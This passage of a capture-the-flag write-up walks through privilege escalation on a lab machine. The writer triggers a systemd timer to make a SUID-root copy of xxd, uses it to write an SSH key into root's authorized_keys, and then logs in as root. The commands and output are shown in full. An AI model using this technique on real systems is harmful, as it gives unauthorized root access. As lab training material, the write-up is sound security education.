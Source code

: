 > To summarize. There are two custom systemd units in the /etc/systemd/system directory - **exploit.timer** and **exploit.service**.
> The **exploit.timer** unit is a timer that, when activated with root privileges, runs the associated exploit.service
> and the command in it **/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"** also with root privileges:

```bash

comte@cheesectf:/etc/systemd/system$ sudo /bin/systemctl restart exploit.timer

```

> Result:

```bash

comte@cheesectf:/opt$ ls -l
total 20
-rwsr-sr-x 1 root root 18712 May  3 22:03 xxd

```

> I get a **xxd** binary file with the **SUID bit set to root**. This is a regular text file containing a hex representation of the
> binary file created by the **xxd utility** . Such a file can later be **restored to a binary using xxd -r**. This means that i can
> use this utility to convert any command and write it to any file as root.

> In this situation, i will do exactly the same thing that i did at the beginning when i got access to the user **comte** using unsafe rights to
> write the file **authorized_keys** and simply send my public ssh key to write to **authorized_keys** only for the root user:

```bash

comte@cheesectf:/opt$ echo 'my_ssh_pub_key' | /opt/xxd | /opt/xxd -r - "/root/.ssh/authorized_keys"

```

> **Note:** It is worth mentioning such a nuance that you need to use the utility that was created as a result of the work of the **systemd unit exploit.service**
> and has the **SUID bit with the owner set to root** , and not the system one in **/usr/bin/xxd** since it will be executed on behalf of the user **comte without privileges**.

> After writing your public key to the authorized_keys of the root user, I connect via ssh and get **root flag**:

```bash

 ssh -i .ssh/id_ed25519 root@10.10.221.128

```
> Result:

```bash

Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 04 May 2025 02:13:33 PM UTC

  System load:  0.0                Processes:             146
  Usage of /:   31.1% of 18.53GB   Users logged in:       1
  Memory usage: 9%                 IPv4 address for ens5: 10.10.221.128
  Swap usage:   0%

```